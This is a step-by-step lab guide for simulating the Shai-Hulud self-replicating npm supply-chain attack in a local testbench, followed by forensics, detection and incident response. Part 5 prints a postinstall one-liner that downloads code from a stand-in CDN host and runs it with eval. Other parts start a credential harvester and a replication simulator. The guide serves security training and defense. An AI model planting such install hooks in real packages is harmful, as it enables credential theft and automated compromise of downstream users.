


# 🚀 Zero to Hero: Scenario 6 - Shai-Hulud Self-Replicating Attack

Welcome! This guide will take you from zero knowledge to successfully completing the Shai-Hulud self-replicating supply chain attack scenario. This is the most advanced scenario, covering one of the most sophisticated supply chain threats.

## 📚 What You'll Learn

By the end of this guide, you will:
- Understand self-replicating supply chain attacks
- Learn credential harvesting techniques
- Execute a Shai-Hulud attack simulation (safely)
- Understand post-install script exploitation
- Detect and respond to self-replicating attacks
- Implement comprehensive defenses

- Apply the **Mitigation Playbook** from this guide and the scenario README
---


## Table of Contents

<div class="doc-toc">

- [Part 1: Understanding Shai-Hulud (15 minutes)](#part-1-understanding-shai-hulud-15-minutes)
- [Part 2: Prerequisites Check (5 minutes)](#part-2-prerequisites-check-5-minutes)
- [Part 3: Setting Up Scenario 6 (15 minutes)](#part-3-setting-up-scenario-6-15-minutes)
- [Part 4: Understanding the Legitimate Package (15 minutes)](#part-4-understanding-the-legitimate-package-15-minutes)
- [Part 5: The Attack - Understanding Post-Install Scripts (20 minutes)](#part-5-the-attack---understanding-post-install-scripts-20-minutes)
- [Part 6: Simulating the Attack (30 minutes)](#part-6-simulating-the-attack-30-minutes)
- [Part 7: Self-Replication Simulation (25 minutes)](#part-7-self-replication-simulation-25-minutes)
- [Part 8: Forensic Investigation (30 minutes)](#part-8-forensic-investigation-30-minutes)
- [Part 9: Detection Methods (25 minutes)](#part-9-detection-methods-25-minutes)
- [Part 10: Incident Response & Mitigation (30 minutes)](#part-10-incident-response--mitigation-30-minutes)
- [Part 11: Understanding the Complete Attack Chain (15 minutes)](#part-11-understanding-the-complete-attack-chain-15-minutes)
- [Mitigation Playbook](#mitigation-playbook)
- [Elasticsearch + Kibana observability (optional)](#elasticsearch--kibana-observability-optional)
- [Part 12: Clean Up and Next Steps (5 minutes)](#part-12-clean-up-and-next-steps-5-minutes)
- [🆘 Troubleshooting](#🆘-troubleshooting)
- [📚 Additional Resources](#📚-additional-resources)
- [⚠️ Important Reminders](#⚠️-important-reminders)
- [🎉 Congratulations!](#🎉-congratulations)

</div>

---
## Part 1: Understanding Shai-Hulud (15 minutes)

### What is Shai-Hulud?

**Shai-Hulud** (named after the giant sandworms from Dune) is a self-replicating supply chain attack that has compromised hundreds of npm packages. This attack represents one of the most sophisticated and dangerous supply chain threats.

### Why It's Called "Self-Replicating"

Unlike other attacks that require manual intervention, Shai-Hulud **spreads automatically**:
1. Compromises one package
2. Harvests credentials from victims
3. Uses stolen credentials to compromise more packages
4. Repeats the cycle automatically

### Real-World Impact

- **Hundreds of packages compromised** including those from:
  - Zapier
  - PostHog
  - Postman
  - Many other organizations
- **Self-replicating nature** means the attack spreads automatically
- **Credential theft** enables further attacks on victim organizations
- **Difficult to detect** because packages appear legitimate

### Attack Characteristics

1. **Initial Compromise**: Attackers gain access to npm maintainer accounts
2. **Malicious Post-Install**: Injects `postinstall` scripts that execute on package installation
3. **Credential Harvesting**: Scans for and steals:
   - GitHub tokens (`.npmrc`, environment variables)
   - npm tokens
   - Cloud provider secrets (AWS, Azure, GCP)
   - CI/CD credentials
4. **Exfiltration**: Uploads stolen credentials to public GitHub repositories
5. **Self-Replication**: Uses stolen credentials to republish infected versions across other packages

---

## Part 2: Prerequisites Check (5 minutes)

Before we start, make sure you've completed:

- ✅ Scenario 1 (Typosquatting)
- ✅ Scenario 2 (Dependency Confusion)
- ✅ Scenario 3 (Compromised Package)
- ✅ Node.js 16+ and npm installed
- ✅ TESTBENCH_MODE enabled

Verify your setup:

```bash
node --version
npm --version
echo $TESTBENCH_MODE  # Should output: enabled
```

---

## Part 3: Setting Up Scenario 6 (15 minutes)

### Step 1: Navigate to Scenario Directory

```bash
cd scenarios/06-sha-hulud
```

### Step 2: Run the Setup Script

```bash
./setup.sh
```

**What this does:**
- Creates directory structure
- Sets up legitimate package
- Creates compromised package with postinstall script
- Sets up victim application
- Creates infrastructure components (mock CDN, credential harvester)

**Expected output:**
- Setup progress messages
- Directories and files created
- "Next Steps" displayed

### Step 3: Understand the Environment

**The Package**: `data-processor`
- **Legitimate Version**: 1.2.0 (in `legitimate-package/`)
- **Compromised Version**: 1.2.1 (in `compromised-package/`)
- **Purpose**: Data transformation and processing utilities
- **Weekly Downloads**: 5,000,000+
- **Maintainer**: Jane Smith (compromised account)

**The Attack Components:**
- **Post-Install Script**: Executes automatically on `npm install`
- **Bundle.js**: Obfuscated payload downloaded from CDN
- **Credential Harvester**: Scans for and steals credentials
- **GitHub Exfiltration**: Uploads stolen data to GitHub

---

## Part 4: Understanding the Legitimate Package (15 minutes)

### Step 1: Examine the Original Package

```bash
cd legitimate-package/data-processor
cat package.json
cat index.js
```

**What to notice:**
- Clean, straightforward code
- Simple data processing functions
- No postinstall scripts
- Version 1.2.0

**Package Details:**
- Name: `data-processor`
- Version: 1.2.0
- Purpose: Data transformation and processing
- Maintainer: Jane Smith (jane@example.com)

### Step 2: Understand the Functionality

The package provides:
- Data transformation utilities
- Processing functions
- Common data operations

This is a trusted, widely-used package.

---

## Part 5: The Attack - Understanding Post-Install Scripts (20 minutes)

### Step 1: What is a Post-Install Script?

**Post-install scripts** are npm lifecycle hooks that run automatically after a package is installed. They're defined in `package.json`:

```json
{
  "scripts": {
    "postinstall": "node setup.js"
  }
}
```

**The Vulnerability:**
- Post-install scripts run automatically
- Users often don't review them
- They execute with full permissions
- Perfect for attackers!

### Step 2: Examine the Compromised Package

```bash
cd ../../compromised-package/data-processor
cat package.json
```

**Key Changes:**
1. **Post-Install Script Added**: Downloads and executes `bundle.js`
2. **Version Bump**: 1.2.0 → 1.2.1
3. **Malicious Payload**: Hidden in downloaded bundle

**The Post-Install Script:**
```json
{
  "scripts": {
    "postinstall": "node -e \"require('https').get('https://cdn.example.com/bundle.js', (r) => { let d=''; r.on('data', c=>d+=c); r.on('end', ()=>{eval(d)}) })\""
  }
}
```

**What it does:**
- Downloads `bundle.js` from attacker-controlled CDN
- Executes the downloaded code
- Runs automatically on every `npm install`

### Step 3: Review the Malicious Bundle

```bash
cat ../templates/bundle.js
```

**What it does:**
- Scans for `.npmrc` files (contains npm tokens)
- Checks environment variables for API keys
- Looks for GitHub tokens in common locations
- Searches for cloud provider credentials
- Exfiltrates all found credentials

**Key Functions:**
1. **File Scanning**: Searches for credential files
2. **Environment Variable Harvesting**: Collects API keys
3. **Credential Extraction**: Parses tokens and keys
4. **Exfiltration**: Sends data to attacker server

---

## Part 6: Simulating the Attack (30 minutes)

### Step 1: Start Infrastructure

```bash
cd ../../infrastructure

# Start mock CDN (serves bundle.js)
node mock-cdn.js &

# Start credential harvester (receives stolen credentials)
node credential-harvester.js &

# Start GitHub Actions simulator (simulates repository creation)
node github-actions-simulator.js &
```

**What each component does:**
- **Mock CDN**: Serves the malicious `bundle.js` payload
- **Credential Harvester**: Receives and logs stolen credentials
- **GitHub Simulator**: Simulates GitHub repository creation for exfiltration

### Step 2: Install Compromised Package

```bash
cd ../../victim-app
npm install ../compromised-package/data-processor
```

**Observe what happens:**
- The `postinstall` script executes automatically
- `bundle.js` is downloaded from the mock CDN
- Credential scanning occurs
- Data is exfiltrated

**You should see:**
- Network requests during installation
- Post-install script execution
- Credential harvesting activity

### Step 3: Check Exfiltrated Data

```bash
# View captured credentials
curl http://localhost:3001/captured-credentials

# View GitHub repository creation logs
curl http://localhost:3002/repo-logs
```

**What was stolen:**
- npm tokens from `.npmrc` (if present)
- GitHub tokens from environment (if present)
- AWS credentials (if present)
- Other sensitive data

---

## Part 7: Self-Replication Simulation (25 minutes)

**The Critical Feature**: Using stolen credentials to spread

### Step 1: Understand Replication Logic

The attacker uses stolen npm tokens to:
1. List all packages owned by the victim
2. Publish new infected versions of each package
3. Each new version contains the same malicious `postinstall` script
4. Attack spreads automatically as users update packages

### Step 2: Simulate Replication

```bash
cd ../infrastructure
node replication-simulator.js
```

**Observe:**
- Packages owned by victim are identified
- New versions are published to each package
- Each version contains the same malware
- Attack propagates across the ecosystem

### Step 3: Understand the Spread

**Attack Propagation:**
```
Package A (compromised) → Credentials stolen → Package B (compromised)
                                                      ↓
                                              Package C (compromised)
                                                      ↓
                                              Package D (compromised)
```

**Why it's dangerous:**
- One compromise leads to many
- Spreads automatically
- Difficult to contain
- Affects entire ecosystems

---

## Part 8: Forensic Investigation (30 minutes)

**You're a security analyst**. Unusual activity has been reported. Investigate!

### Investigation Step 1: Identify Suspicious Behavior

```bash
# Check npm install logs
cat ~/.npm/_logs/*-debug.log | grep postinstall

# Monitor network traffic
../../detection-tools/network-monitor.sh

# Check for unexpected GitHub repository creation
curl http://localhost:3002/repo-logs
```

**Red Flags:**
- Unexpected network connections during install
- Post-install scripts in packages that shouldn't have them
- New GitHub repositories created automatically
- Unusual outbound connections

### Investigation Step 2: Package Analysis

```bash
# Compare package versions
diff -ur ../legitimate-package/data-processor ../compromised-package/data-processor

# Check package.json for postinstall scripts
cat node_modules/data-processor/package.json | grep -A 5 scripts
```

**What to Look For:**
- New `postinstall` scripts
- Suspicious dependencies
- Obfuscated code
- Network requests in install scripts
- CDN downloads during installation

### Investigation Step 3: Bundle.js Analysis

```bash
# Download and examine bundle.js
curl http://localhost:3000/bundle.js > bundle.js
cat bundle.js

# Look for obfuscation
node -e "console.log(require('fs').readFileSync('bundle.js', 'utf8'))"
```

**Analysis Questions:**
- What does the code do?
- How is it obfuscated?
- What credentials is it looking for?
- Where does it exfiltrate data?

### Investigation Step 4: Timeline Reconstruction

```bash
# Check npm registry for publish history (simulated)
# npm view data-processor time

# Check for rapid version bumps
# npm view data-processor versions

# Check maintainer changes
# npm owner ls data-processor
```

**Build Timeline:**
- When was the package compromised?
- How many versions are affected?
- Who published the malicious versions?
- How long was it active?

---

## Part 9: Detection Methods (25 minutes)

Implement multiple detection layers:

### Detection 1: Post-Install Script Monitoring

```bash
cd ../../detection-tools
node postinstall-monitor.js
```

Monitor for:
- Unexpected `postinstall` scripts
- Network requests during install
- File system access during install

### Detection 2: Credential Scanning

```bash
# Scan for exposed credentials
node credential-scanner.js ../../victim-app
```

Check for:
- `.npmrc` files with tokens
- Environment variables with API keys
- Hardcoded credentials

### Detection 3: Package Integrity Checking

```bash
# Verify package checksums
npm audit

# Check for known malicious patterns
node malware-signature-scanner.js data-processor
```

### Detection 4: Behavioral Analysis

Monitor for:
- Unusual GitHub repository creation
- Rapid package version bumps
- Multiple packages updated by same maintainer
- Network traffic to suspicious domains

---

## Part 10: Incident Response & Mitigation (30 minutes)

**The package has been confirmed as compromised. Respond!**

### Response Step 1: Immediate Containment

```bash
# 1. Revoke all npm tokens
npm token revoke-all

# 2. Remove compromised packages
npm uninstall data-processor

# 3. Clear caches
npm cache clean --force

# 4. Block malicious CDN
echo "127.0.0.1 cdn.example.com" >> /etc/hosts
```

### Response Step 2: Impact Assessment

```bash
# Find all affected projects
# node scripts/find-affected-projects.js data-processor

# Check which versions are affected
# npm view data-processor versions

# Identify compromised versions: 1.2.1, 1.2.2, 1.2.3
```

### Response Step 3: Credential Rotation

**CRITICAL**: All stolen credentials must be rotated immediately:

1. **npm Tokens**:
   ```bash
   npm token revoke-all
   npm token create
   ```

2. **GitHub Tokens**:
   - Revoke in GitHub Settings → Developer settings → Personal access tokens
   - Create new tokens with minimal permissions

3. **Cloud Credentials**:
   - Rotate AWS access keys
   - Rotate Azure service principals
   - Rotate GCP service account keys

### Response Step 4: Package Remediation

**Option A: Pin to Safe Version**
```json
{
  "dependencies": {
    "data-processor": "1.2.0"  // Last known good version
  }
}
```

**Option B: Replace Package**
```bash
npm uninstall data-processor
npm install alternative-data-processor
```

**Option C: Internal Fork**
```bash
# Create internal fork from safe version
git clone https://github.com/original/data-processor
cd data-processor
git checkout v1.2.0
# Publish to internal registry
```

### Response Step 5: Prevention

Implement preventive measures:

1. **2FA Enforcement**:
   - Enable 2FA on all npm accounts
   - Require 2FA for package publishing

2. **Post-Install Script Restrictions**:
   ```json
   {
     "config": {
       "ignore-scripts": true
     }
   }
   ```

3. **Automated Scanning**:
   ```yaml
   # .github/workflows/security.yml
   - name: Security Audit
     run: |
       npm audit --audit-level=moderate
       npm run security-scan
   ```

4. **Credential Management**:
   - Use secret management tools (HashiCorp Vault, AWS Secrets Manager)
   - Never commit credentials to repositories
   - Rotate credentials regularly

5. **Package Lock Enforcement**:
   ```bash
   # Use npm ci instead of npm install
   npm ci --audit
   ```

---

## Part 11: Understanding the Complete Attack Chain (15 minutes)

### The Full Attack Flow

1. **Initial Compromise**: Attacker gains npm maintainer account access
2. **Package Modification**: Adds malicious `postinstall` script
3. **Version Publishing**: Publishes new version (1.2.1)
4. **User Installation**: Users install/update package
5. **Post-Install Execution**: `postinstall` script runs automatically
6. **Bundle Download**: Downloads `bundle.js` from CDN
7. **Credential Harvesting**: Scans for and steals credentials
8. **Exfiltration**: Uploads credentials to GitHub
9. **Self-Replication**: Uses stolen credentials to compromise more packages
10. **Spread**: Attack propagates across ecosystem

### Why It's So Dangerous

- **Self-Replicating**: Spreads automatically without manual intervention
- **Credential Theft**: Amplifies impact by enabling further attacks
- **Stealth**: Packages appear legitimate
- **Scale**: One compromise leads to many
- **Persistence**: Difficult to completely eradicate

---


---

## Mitigation Playbook

Canonical prevention and mitigation controls (aligned with the [scenario README](../../../scenarios/06-sha-hulud/README.md)). Lab walkthroughs above expand each control with hands-on steps.

- Require 2FA on all package maintainer and publishing accounts.
- Restrict or monitor `postinstall` and other lifecycle scripts.
- Run automated security scanning in CI on every dependency change.
- Use secret management tools; never commit tokens or keys to repositories.
- Enforce lockfiles with `npm ci --audit` in CI pipelines.
- Rotate credentials immediately after suspected compromise.

---

---

## Elasticsearch + Kibana observability (optional)

Scenario **06 — Shai-Hulud (Self-Replicating)** is indexed in Elasticsearch when the observability stack is running.

Shai-Hulud simulation: postinstall on data-processor harvests credentials to credential-harvester :3001.

- **Detection runbook (static)** → index `scas-rules`, document id `06` — IOCs, Sigma, YARA, sample logs from `DETECT.md`
- **Runtime captures (dynamic)** → index `scas-detections` — one document per exfil event when `SCAS_ES_URL` is set before starting the mock collector

### How to read this diagram

| Phase | What you should look for |
|-------|--------------------------|
| **1 — Collectors** | Terminal A starts the mock server (or harvester). Set `SCAS_ES_URL` here if you want live Elasticsearch indexing. |
| **2 — Lab execution** | Terminal B runs the scenario README steps. See the **sequence diagram** and **Scenario-specific attack steps** below. |
| **3 — Exfiltration** | Malicious sample sends **localhost-only** JSON to the mock endpoint. Evidence is always written to `infrastructure/` on disk. |
| **4 — Elasticsearch** | When `SCAS_ES_URL` is set, the same capture is indexed into `scas-detections` with `scenario_id` and `event_type=exfil_capture`. |
| **5 — Kibana** | Use the per-scenario saved searches to compare **runtime captures** (Detections) with the **static runbook** (Rules). |

> **Safety:** All network calls stay on `127.0.0.1`. Malicious logic runs only when `TESTBENCH_MODE=enabled`.

### End-to-end flow



*Swimlane diagram for Scenario 06. Editable source: [`scas-observability-scenario-06.excalidraw`](../../assets/diagrams/scas-observability-scenario-06.excalidraw). Regenerate with `node scripts/generate-scenario-observability-diagrams.js`.*

### Sequence diagram (Phase 1–5)

Same flow as a participant sequence (expandable in the docs hub).



### Scenario-specific attack steps (Phase 2)

Same Phase-2 path as the diagrams above (for skimming / accessibility).

| # | From | To | Action |
|---|------|----|--------|
| 1 | Learner | Victim | npm install ../compromised-package/data-processor |
| 2 | Victim | MalPkg | npm lifecycle runs postinstall script |
| 3 | MalPkg | MalPkg | Scan for tokens / npmrc paths (simulated) |
| 4 | Learner | Victim | npm start (optional second-stage behavior) |

### Prerequisites

From the repository root:

```bash
./scripts/elasticsearch-up.sh
./scripts/setup-kibana-data-views.sh   # data views + saved searches for all 23 scenarios
```

### Run this scenario with live Elasticsearch forwarding

**Terminal A — mock collector** (from `scenarios/06-sha-hulud`):

```bash
cd scenarios/06-sha-hulud
export TESTBENCH_MODE=enabled
export SCAS_ES_URL=http://localhost:9200
cd infrastructure && node credential-harvester.js
```

**Terminal B — execute the lab:**

```bash
cd scenarios/06-sha-hulud
export TESTBENCH_MODE=enabled
export SCAS_ES_URL=http://localhost:9200
cd victim-app && npm install ../compromised-package/data-processor && npm start
```

> **Note:** Also runs mock-cdn :3000 and github-actions-simulator :3002 for replication simulation.

### Verify locally (file-based evidence)

```bash
curl -s http://localhost:3001/captured-credentials
```

### Verify in Elasticsearch (API)

```bash
# Static runbook for this scenario
curl -s "http://localhost:9200/scas-rules/_doc/06?pretty"

# Latest runtime capture events
curl -s "http://localhost:9200/scas-detections/_search?pretty" \
  -H 'Content-Type: application/json' \
  -d '{
    "query": { "term": { "scenario_id": "06" } },
    "sort": [{ "@timestamp": "desc" }],
    "size": 5
  }'
```

### Verify in Kibana (UI)

1. Open [http://localhost:5601](http://localhost:5601)
2. **Discover** → **SCAS Detections — Scenario 06** — live capture timeline (`@timestamp`, `package.name`, `detail`)
3. **Discover** → **SCAS Rules — Scenario 06** — compare against `iocs`, `sigma`, and `yara` fields
4. Ask: *Does each capture field match an IOC or Sigma condition in the runbook?*

See [observability/README.md](../../../observability/README.md) for stack details.

## Part 12: Clean Up and Next Steps (5 minutes)

### Clean Up

```bash
# Stop all infrastructure services
# ps aux | grep -E "mock-cdn|credential-harvester|github-actions"
# kill <PIDs>
```

### What You've Accomplished

✅ Understood self-replicating supply chain attacks  
✅ Executed a Shai-Hulud attack simulation (safely)  
✅ Understood credential harvesting techniques  
✅ Conducted forensic investigation  
✅ Performed comprehensive incident response  
✅ Implemented detection and prevention strategies  

### Next Steps

1. **Review Other Scenarios**: Compare different attack vectors
2. **Experiment**: Try different obfuscation techniques
3. **Read More**: Study real-world Shai-Hulud incidents
4. **Practice**: Implement detection in a real project

---

## 🆘 Troubleshooting

### Problem: "Post-install script not executing"

**Solution:**
```bash
# Check if scripts are disabled
npm config get ignore-scripts

# Enable scripts if needed
npm config set ignore-scripts false

# Reinstall
npm install ../compromised-package/data-processor
```

### Problem: "Bundle.js not downloading"

**Solution:**
```bash
# Verify mock CDN is running
curl http://localhost:3000/bundle.js

# Check network connectivity
# Restart mock CDN if needed
```

### Problem: "No credentials captured"

**Solution:**
```bash
# Create test .npmrc file
echo "//registry.npmjs.org/:_authToken=test-token" > ~/.npmrc

# Set test environment variables
export GITHUB_TOKEN=test-github-token
export AWS_ACCESS_KEY_ID=test-aws-key

# Reinstall package
npm install ../compromised-package/data-processor
```

---

## 📚 Additional Resources

- **Main README**: `README.md`
- **Scenario README**: `scenarios/06-sha-hulud/README.md`
- **Microsoft Security Blog**: Shai-Hulud 2.0 research
- **npm Security Best Practices**: https://docs.npmjs.com/security

---

## ⚠️ Important Reminders

- ✅ This is for **EDUCATIONAL purposes only**
- ✅ Use **ONLY in isolated environments**
- ✅ **Never** deploy malicious code to production
- ✅ **Always** set `TESTBENCH_MODE=enabled`
- ✅ **Never** test on systems you don't own

---

## 🎉 Congratulations!

You've completed the Shai-Hulud self-replicating attack scenario! You now understand:
- How self-replicating attacks work
- How credential harvesting enables spread
- How to detect these sophisticated attacks
- How to respond comprehensively
- How to prevent future compromises

**Remember**: Self-replicating attacks are extremely dangerous. Defense in depth is essential!

Happy learning! 🔐

